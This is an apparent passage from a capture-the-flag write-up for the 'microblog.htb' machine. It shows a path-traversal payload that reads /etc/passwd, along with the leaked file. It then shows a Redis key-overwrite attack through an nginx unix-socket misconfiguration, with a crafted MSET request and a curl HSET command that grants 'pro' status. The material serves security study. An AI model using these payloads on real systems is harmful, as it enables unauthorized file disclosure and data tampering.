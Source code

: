 id=../../../../../../etc/passwd&header=sss
```

## Output:

```
root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin_apt:x:100:65534::/nonexistent:/usr/sbin/nologinsystemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologinsystemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologinsystemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologinsystemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologincooper:x:1000:1000::/home/cooper:/bin/bashredis:x:103:33::/var/lib/redis:/usr/sbin/nologingit:x:104:111:Git Version Control,,,:/home/git:/bin/bashmessagebus:x:105:112::/nonexistent:/usr/sbin/nologinsshd:x:106:65534::/run/sshd:/usr/sbin/nologin_laurel:x:997:997::/var/log/laurel:/bin/false
```

#### Redis key overwrite
[Middleware everywhere and lots of misconfigurations to fix | Detectify Labs](https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/)

Luckily, redis commands accepting a variable amount of arguments do exist. MSET ([https://redis.io/commands/mset](https://redis.io/commands/mset)) takes a variable amount of keys and values:

```
MSET key1 "Hello" key2 "World"
GET key1
“Hello”
GET key2
“World”
```

In other words, we can use a request such as this to write any key:

```
MSET /static/unix:%2ftmp%2fmysocket:hacked%20%22true%22%20/app-1555347823-min.js HTTP/1.1
Host: example.com
```

Resulting in the following data on the socket (to redis):

```
MSET hacked "true" -example.s3.amazonaws.com/app-1555347823-min.js 
HTTP/1.0
Host: localhost
Connection: close
```
##### get isPro

```bash
curl -X "HSET" http://microblog.htb/static/unix:%2fvar%2frun%2fredis%2fredis.sock:hacker%20pro%20true%20a/b
```
